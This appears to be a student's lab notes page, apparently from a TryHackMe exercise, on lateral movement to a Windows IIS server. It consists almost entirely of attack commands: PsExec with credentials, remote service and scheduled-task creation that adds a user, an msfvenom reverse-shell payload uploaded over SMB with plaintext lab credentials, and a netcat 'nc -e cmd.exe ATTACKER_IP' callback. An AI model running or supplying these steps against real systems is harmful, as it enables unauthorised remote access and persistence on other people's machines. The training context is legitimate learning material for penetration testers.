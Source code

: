 ```yaml
---
description: 'Target : IIS server'
---
```


# Spawning access remotely

## PSExec

<figure><img src="../../.gitbook/assets/Capture d&#x27;écran 2024-05-06 012209.png" alt=""><figcaption></figcaption></figure>

```
psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe
```

### Remotely Creating Services Using sc

<figure><img src="../../.gitbook/assets/Capture d&#x27;écran 2024-05-06 013437.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/Capture d&#x27;écran 2024-05-06 013454.png" alt=""><figcaption></figcaption></figure>

<pre><code><strong># Create and start service 
</strong><strong>sc.exe \\TARGET create THMservice binPath= "net user munra Pass123 /add" start= auto
</strong>sc.exe \\TARGET start THMservice
#Stop and delete service 
sc.exe \\TARGET stop THMservice
sc.exe \\TARGET delete THMservice
</code></pre>

### Creating Scheduled Tasks Remotely

```
# Create task
schtasks /s TARGET /RU "SYSTEM" /create /tn "THMtask1" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00 
# run manually
schtasks /s TARGET /run /TN "THMtask1" 
# delete
schtasks /S TARGET /TN "THMtask1" /DELETE /F

```



## With reverse shell

```
# Generate payload
msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=ATTACKER_IP LPORT=4444 -o myservice.exe

# Upload payload
smbclient -c 'put myservice.exe' -U t1_leonard.summers -W ZA '//thmiis.za.tryhackme.com/admin$/' EZpass4ever
 putting file myservice.exe as \myservice.exe (0.0 kb/s) (average 0.0 kb/s)


```

```
# Listen netcat on another tab
nc -lvp 4443

```

Intermediate machine (connect to netcat with admin account via network authentifcation) :&#x20;

```
runas /netonly /user:ZA.TRYHACKME.COM\t1_leonard.summers "c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4443"

```

Attacker's netcat session&#x20;

```
C:\> sc.exe \\thmiis.za.tryhackme.com create THMservice-3249 binPath= "%windir%\myservice.exe" start= auto
C:\> sc.exe \\thmiis.za.tryhackme.com start THMservice-3249
```

Meterpreter session spawned
